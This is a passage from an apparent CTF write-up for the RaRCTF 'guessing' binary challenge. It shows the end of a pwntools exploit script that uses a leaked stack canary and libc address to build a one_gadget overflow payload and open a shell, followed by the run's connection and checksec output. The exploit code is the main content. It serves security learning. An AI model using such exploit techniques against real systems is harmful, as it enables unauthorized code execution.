 ```
		addition = 0
		count += 1
	if i == 6:
		break
	

print('i used', count, 'guesses')
print('canary is', hex(canary))
print('libc leak is', hex(libc_leak))

#target.interactive()
for i in range(8 - count):
	print(target.recvuntil(b'(0-7)?', timeout=1))
	target.sendline(str(0x20).encode('ascii'))
	print(target.recvuntil(b'guess:', timeout=1))
	my_guess = 0
	print(hex(my_guess))
	target.sendline(str(my_guess).encode('ascii'))


print(target.recvuntil(b'game?'))

libc_start_main = libc_leak - 243
libc_base = libc_start_main - libc.symbols['__libc_start_main']
print('libc start main is at', hex(libc_start_main))

onegadget1 = libc_base + 0xe6e73
onegadget2 = libc_base + 0xe6e76
onegadget3 = libc_base + 0xe6e79


payload = b'\x00' * 24

payload += p64(canary)
payload += p64(libc_base + 0x1ee100)

payload += p64(onegadget3) 


target.sendline(payload)


target.interactive()

```
And here are the results:
```
knittingirl@piglet:~/CTF/RaRCTF/guessing$ python3 guess_payload_final.py 
[+] Opening connection to 193.57.159.27 on port 55206: Done
[*] '/home/knittingirl/CTF/RaRCTF/guessing/guess'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/knittingirl/CTF/RaRCTF/guessing/libc6_2.31-0ubuntu9.2_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'\nWhich number are you guessing (0-7)?'
b' Enter your guess:'
```